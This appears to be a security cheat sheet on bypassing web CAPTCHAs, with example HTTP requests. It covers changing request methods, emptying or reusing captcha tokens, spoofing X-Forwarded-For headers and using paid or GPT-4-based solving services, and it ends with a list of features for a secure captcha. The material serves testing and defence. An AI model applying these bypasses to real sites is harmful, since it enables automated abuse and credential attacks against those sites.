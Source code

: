 # Captcha Bypass

* Do not send the parameter related to the captcha
  * Change from `POST` to `GET` or other HTTP Verbs
  * Change to JSON or from JSON
* Send the captcha parameter empty
* Check if the value of the captcha is **in the source code** of the page
* Check if the value is inside a cookie
* Try to use an old captcha value
* Check if you can use the same captcha value several times with the same or different sessionID
* If the captcha consists on a mathematical operation try to automate the calculation
* If the captcha consists of read characters from an image, check manually or with code how many images are being used and if only a few images are being used, detect them by MD5
* Use an OCR (https://github.com/tesseract-ocr/tesseract)
#captcha #captch-bypass

## Different ways to bypass captcha:

1. Try **changing request method**, for example `POST` to `GET`

```html
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=user&_Password=test123
```

Change the method to `GET`:

```html
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=user&_Password=test123 HTTP 1.1
Host: target.com
[...]
```

2. Try to **remove the value** of CAPTCHA parameter

```html
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=user&_Password=test123
```

Remove the parameter:

```html
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=&_Username=user&_Password=test123
```

3. Try **reuse Old CAPTCHA** Token

```html
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=user&_Password=test123
```

4. Convert **JSON data** to **normal request** parameter

```html
POST / HTTP 1.1
Host: target.com
[...]
{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"user","_Password":"test123"}
```

Convert to normal request:

```html
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=user&_Password=test123
```

5. Try **custom header** to bypass CAPTCHA

* `X-Originating-IP: 127.0.0.1`
* `X-Forwarded-For: 127.0.0.1`
* `X-Remote-IP: 127.0.0.1`
* `X-Remote-Addr: 127.0.0.1`

7. **Change some specific characters** of the captcha parameter and see if it is possible to bypass the CAPTCHA.

```html
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=user&_Password=test123
```

Try this to bypass:

```html
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=user&_Password=test123
```


## Online Services to bypass captchas

* [Capsolver](https://www.capsolver.com/) automatic captcha solver offers the most affordable and quick captcha-solving solution. You may rapidly combine it with your program using its simple integration option to achieve the best results in a matter of seconds.

* [AZcaptcha](https://azcaptcha.com/) is an automated online captcha solver API service which is highly accurate and superbly cheap OCR captcha solver solution.

* [GPT4o Captcha Bypass](https://github.com/aydinnyunus/gpt4-captcha-bypass) This project is a CLI tool for testing various types of captchas including puzzle, text, complicated text, and reCAPTCHA using Python and Selenium. The tool also uses OpenAI GPT-4 to help solve the captchas.


## A secure Captcha should have the following features:

* It cannot be read using automatic Captcha Solver tools
* It has the necessary high entropy content and cannot be guessed
* Expiration on both the server and the client side with every wrong entry
* After each user request, whether successful or unsuccessful, the captcha must be changed and the user should not be allowed to send the request again with the previous captcha.
* Expires after a short time (about 2 minutes).
* After successful login, Captcha will expire
* When a new Captcha code is created, the previous code will expire
* Using the 2FA or MFA mechanism
